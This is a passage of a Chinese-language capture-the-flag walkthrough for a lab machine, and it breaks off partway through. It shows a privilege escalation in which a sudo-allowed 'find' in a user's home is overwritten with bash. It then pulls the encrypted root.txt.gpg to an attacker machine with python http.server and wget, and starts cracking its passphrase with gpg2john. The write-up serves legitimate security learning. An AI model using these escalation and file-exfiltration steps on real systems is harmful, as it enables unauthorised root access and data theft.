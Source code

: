 拿到user.txt，继续 找

```
sudo -l
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

可以使用root权限执行tridente用户目录下的find

```
ls -al
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

这是tridente自己的程序可以随便修改内容，直接用bash替换

```
cp -rf /bin/bash ~/find
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

拿到root权限，再来找下flag

```
cd /root  
ls  
file root.txt.gpg
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

root.txt被加密了，使用gpg2john破解密码

gpg密码暴破

1。将root.txt.gpg下载到攻击机

靶机：

```
python3 -m http.server
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

攻击机：

```
wget http://10.0.0.117:8000/root.txt.gpg
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

2。使用gpg2john生成hash密码

```
gpg2john root.txt.gpg >gpghash
```
